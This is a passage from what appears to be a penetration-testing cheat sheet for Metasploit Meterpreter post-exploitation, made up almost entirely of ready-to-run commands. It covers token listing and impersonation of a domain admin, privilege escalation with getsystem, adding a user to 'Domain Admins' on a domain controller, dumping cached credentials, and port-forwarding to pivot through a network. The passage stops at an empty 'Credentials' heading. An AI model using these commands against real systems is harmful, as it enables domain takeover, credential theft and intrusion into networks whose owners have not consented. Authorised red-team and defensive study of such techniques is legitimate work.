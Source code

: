 List tokens

{% highlight PowerShell %}
meterpreter > list_tokens -u
{% endhighlight %}

Impersonate a token

{% highlight PowerShell %}
meterpreter > impersonate_token <domain\\adminuser>
meterpreter > impersonate_token PHARMA\globaladmin
{% endhighlight %}

Check user ID

{% highlight PowerShell %}
meterpreter > getuid
{% endhighlight %}

Add a user to domain

{% highlight PowerShell %}
meterpreter > getsystem
meterpreter > getuid
meterpreter > add_user <user> <pwd> -h <dc_ip>
meterpreter > add_group_user "Domain Admins" <user> -h <dc_ip>
{% endhighlight %}

Check our access

{% highlight PowerShell %}
meterpreter > shell
C:\WINDOWS\system32> whoami
{% endhighlight %}

## Post exploitation tools in metasploit

This module harvests credentials found on the host and stores them in the database

{% highlight PowerShell %}
meterpreter > run credcollect
Meterpreter > run post/windows/gather/cachedump
{% endhighlight %}

## Tunneling sessions in meterpreter

Port Forwarding to Local Outbound

{% highlight PowerShell %}
portfwd add -L 127.0.0.2 -l 445 -p 445 -r <remote host>
portfwd add -l 9090 -p 9090 -r 127.0.0.1
portfwd add -l 3389 -p 3389 -r 127.0.0.1
{% endhighlight %}

## Credentials

